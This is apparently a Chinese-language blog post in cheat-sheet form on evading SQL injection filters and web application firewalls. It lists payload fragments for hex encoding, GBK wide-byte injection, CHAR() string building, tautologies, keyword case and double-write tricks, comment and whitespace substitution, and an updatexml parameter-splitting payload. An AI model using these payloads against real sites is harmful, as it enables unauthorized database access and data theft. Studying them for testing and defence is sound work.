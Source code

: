 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
description: sql注入的绕过方法
---
```

## sql注入检测的一些绕过方法  
### 在mysql和mssql中重要的数据库：
- Information_schema数据库：作用是保存所有数据库信息。 
- information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍： 
- table_schema: 记录数据库名；
- table_name: 记录数据表名；
- table_rows: 关于表的粗略行估计；
- data_length : 记录表的大小（单位字节）；
- Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息

### 绕过sql注入检测的技巧:

### 遇到单引号转译 可以考虑使用16进制绕过：
table_name=’users ’——》table_name=0×757365727    
### 当’被转译为 \’ 时可以考虑宽字节注入：
   发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入   
### 避开单引号过滤：
1.输入单引号没反应，尝试输入”  
2.可以使用ascII 替代字符串不必使用单引号：       
- mysql:连接字符串是CONCAT函数,select name=concat(CHAR(97),char(114))   
- Oracle: select name=chr(97)\|\|chr(114)  
- Ms-SQL:select name=char(97)+char(114)

### --注释符被阻止时考虑闭合: 
‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a    
### =号被阻止：  
使用<>（不等于）例：!(table_schema<>database())  
### select 被过滤:  
使用 SeLEct selselectect、%53%45%4c%45%54、se%a0lect来绕过。   
### 空格过滤:  
1.使用注释 /\*foo\*/:   
select/*foo*/uername,password/\*foo\*/from  
2.使用特殊符号代替空格:  
%0b TAB键（垂直）、%a0 空格 、%09 TAB键（水平）、%0a 新建一行、 %0c 新的一页 、%0d return功能 
 
### HPF(http分割注入)
  post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1 ,这个构造语句把中间的password参数给注释掉了

### ps:

在url中使用--注释时，可能会需要使用--+才能成功注释  
and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-）%26)

